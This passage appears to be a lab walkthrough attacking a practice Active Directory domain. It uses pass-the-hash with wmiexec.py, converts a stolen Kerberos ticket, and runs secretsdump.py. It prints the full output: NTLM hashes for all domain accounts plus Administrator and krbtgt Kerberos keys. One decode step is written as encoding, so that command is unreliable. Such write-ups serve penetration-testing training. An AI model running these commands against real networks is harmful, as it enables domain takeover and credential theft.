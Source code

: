 I did this by connecting via `wmiexec.py`:

`wmiexec.py -hashes aad3b435b51404eeaad3b435b51404ee:d977b98c6c9282c5c478be1d97b237b8 eddard.stark@10.4.10.11`

Going to the directory where the file was saved and using the `lget` to retrieve it.

Afterwards, open it with vim, and add this in order to delete the whitespaces:

`:%s/\s//g`

The ticket is base64 encoded, so decode it and save to a kirbi file

`cat tgt.txt|base64 > ticket.kirbi`

Convert it to `ccache` file by using the ticketconverter.py:

`ticketconverter.py ticket.kirbi ticket.ccache`

Export it:

`export KRB5CCNAME=/home/kali/Documents/delegations/Coercer/coercer/ticket.ccache`

We see that the ticket is in the `klist` now:

```bash
Ticket cache: FILE:/home/kali/Documents/delegations/Coercer/coercer/ticket.ccache
Default principal: KINGSLANDING$@SEVENKINGDOMS.LOCAL

Valid starting       Expires              Service principal
01/13/2025 14:13:48  01/14/2025 00:13:48  krbtgt/SEVENKINGDOMS.LOCAL@SEVENKINGDOMS.LOCAL
	renew until 01/17/2025 19:38:50
```

Try a secretsdump:

`secretsdump.py -k -no-pass SEVENKINGDOMS.LOCAL/'KINGSLANDING$@KINGSLANDING`

And we got the secrets!

```bash
[-] Policy SPN target name validation might be restricting full DRSUAPI dump. Try -just-dc-user
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:c66d72021a2d4744409969a581a1705e:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:5c3a2910c238cb5a530b8b5369a6cf1e:::
localuser:1000:aad3b435b51404eeaad3b435b51404ee:8846f7eaee8fb117ad06bdd830b7586c:::
tywin.lannister:1113:aad3b435b51404eeaad3b435b51404ee:af52e9ec3471788111a6308abff2e9b7:::
jaime.lannister:1114:aad3b435b51404eeaad3b435b51404ee:12e3795b7dedb3bb741f2e2869616080:::
cersei.lannister:1115:aad3b435b51404eeaad3b435b51404ee:c247f62516b53893c7addcf8c349954b:::
tyron.lannister:1116:aad3b435b51404eeaad3b435b51404ee:b3b3717f7d51b37fb325f7e7d048e998:::
robert.baratheon:1117:aad3b435b51404eeaad3b435b51404ee:9029cf007326107eb1c519c84ea60dbe:::
joffrey.baratheon:1118:aad3b435b51404eeaad3b435b51404ee:3b60abbc25770511334b3829866b08f1:::
renly.baratheon:1119:aad3b435b51404eeaad3b435b51404ee:1e9ed4fc99088768eed631acfcd49bce:::
stannis.baratheon:1120:aad3b435b51404eeaad3b435b51404ee:d75b9fdf23c0d9a6549cff9ed6e489cd:::
petyer.baelish:1121:aad3b435b51404eeaad3b435b51404ee:6c439acfa121a821552568b086c8d210:::
lord.varys:1122:aad3b435b51404eeaad3b435b51404ee:52ff2a79823d81d6a3f4f8261d7acc59:::
maester.pycelle:1123:aad3b435b51404eeaad3b435b51404ee:9a2a96fa3ba6564e755e8d455c007952:::
KINGSLANDING$:1001:aad3b435b51404eeaad3b435b51404ee:266a819ccba54527708c65febab712ad:::
NORTH$:1104:aad3b435b51404eeaad3b435b51404ee:ac819f7c593d51f56b614f3dcc10f193:::
ESSOS$:1105:aad3b435b51404eeaad3b435b51404ee:52bac9dd1cab3cdb208d7347118690d9:::
[*] Kerberos keys grabbed
Administrator:aes256-cts-hmac-sha1-96:5ca87118dd89b088de54fb17b009eccadacf97c564e4112a8d0958f9c929165d
Administrator:aes128-cts-hmac-sha1-96:961cd2fe40742376597e986a969ef586
Administrator:des-cbc-md5:b392b0ba3e3e1925
krbtgt:aes256-cts-hmac-sha1-96:f353b3ba6b9bdbe7b0917a4a73b8250f1938c568798a5a3307bf717fe713a48f
krbtgt:aes128-cts-hmac-sha1-96:6f531a15aa3dbd348c5bfbafdfa68124
krbtgt:des-cbc-md5:1f1aad648c3479c8
localuser:aes256-cts-hmac-sha1-96:96286517ab35191f2184b009d2c1347ea40c2aa6696428df79bcc5b0f4e8514c
```